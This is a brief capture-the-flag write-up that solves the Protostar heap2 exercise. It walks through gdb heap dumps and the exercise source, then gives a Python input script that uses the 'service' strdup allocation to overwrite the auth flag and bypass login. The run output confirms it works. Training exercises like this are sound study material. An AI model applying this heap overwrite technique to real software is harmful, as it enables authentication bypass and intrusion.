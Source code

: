 ### S0lv3d by H4yicl3

link https://exploit-exercises.com/protostar/heap2/

try to analysis it with gdb

```
pdis main
0x08048689 <+60>:    call   0x8048480 <printf@plt>
b *main+60


```

the struct look like
```c
struct auth {
  char name[32];
  int auth;
};
if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) { #overflow it with the number not 0
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
```

so we need overflow the auth to get login
the heap segment look like
```
x/40wx 0x0804b000 
0x804b000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804b010:      0x00000000      0x00020ff1      0x00000000      0x00000000
0x804b020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b030:      0x00000000      0x00000000      0x00000000      0x00000000
```

but we can't overflow this !! be cause the check cancel us
```c
if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
```

so another way is use service

```c
if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);	// strdup function make we can write any thing so we can overflow the auth of auth
      }
```

the exploit look like
```
auth hayicle

service ="A"*24+"\x01"
```

the python code look like
```python
auth ="auth hayicle"
padding ="A"*24+"\x01"
service ="service "+padding
login ="login"

print auth
print service
print login
```

try to run this
```
hayicle@ubuntu:~/ctf/protostar/heap$ ./heap2 <input
[ auth = (nil), service = (nil) ]
[ auth = 0x804b008, service = (nil) ]
[ auth = 0x804b008, service = 0x804b018 ]
you have logged in already!
[ auth = 0x804b008, service = 0x804b018 ]
```

ok !! g00d lost :))
